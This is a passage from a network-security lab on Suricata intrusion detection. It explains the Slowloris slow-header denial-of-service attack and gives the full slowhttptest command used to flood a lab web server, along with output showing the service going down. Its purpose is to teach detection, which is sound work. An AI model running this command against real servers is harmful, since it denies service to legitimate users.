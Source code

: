#### Slowloris

Slowloris is a slow-type denial of service attack. It simulates the behaviour
of a very slow client that opens multiple HTTP connections to the target
web server, then it delays the responses, occupying all the server's available
ports and keeping them open for a long time. Thus, the server becomes unable to
accept legitimate requests.

We will run the attack from VM2 to cause a Denial of Service on VM1, inspect the
traffic and see if we can create a rule to catch Slowloris.

Let's see how it works. You need four terminals: two to the base VM, one to VM1
(the web server), one to VM2.

From the first terminal from the base VM, let's inspect the alerts that are
generated by Suricata:

```shell-session
student@base-lab-ids:~/work$ tail -f /var/log/suricata/fast.log
[...] # any new logs will be displayed here.
```

From the second terminal on the base VM, let's check that the web server is
accessible by running the following command:

```shell-session
student@base-lab-ids:~/work$ for i in $(seq 1 200); do curl 192.168.100.81; sleep 2; done
Welcome to lab-ids-1
Welcome to lab-ids-1
```

Keep the command running.

From the VM2, run the Slowloris attack using the following command:

```shell-session
[student@lab-ids-2 ~]$ slowhttptest -c 10000 -H -i 10 -r 300 -t GET -u http://192.168.100.81
Fri May 13 21:02:56 2022:
        slowhttptest version 1.8.1
 - https://github.com/shekyan/slowhttptest -
test type:                        SLOW HEADERS
number of connections:            10000
URL:                              http://192.168.100.81/
verb:                             GET
cookie:
Content-Length header value:      4096
follow up data max size:          68
interval between follow up data:  10 seconds
connections per seconds:          300
probe connection timeout:         5 seconds
test duration:                    240 seconds
using proxy:                      no proxy

Fri May 13 21:02:56 2022:
slow HTTP test status on 15th second:

initializing:        0
pending:             2
connected:           765
error:               0
closed:              1018
service available:   NO
```
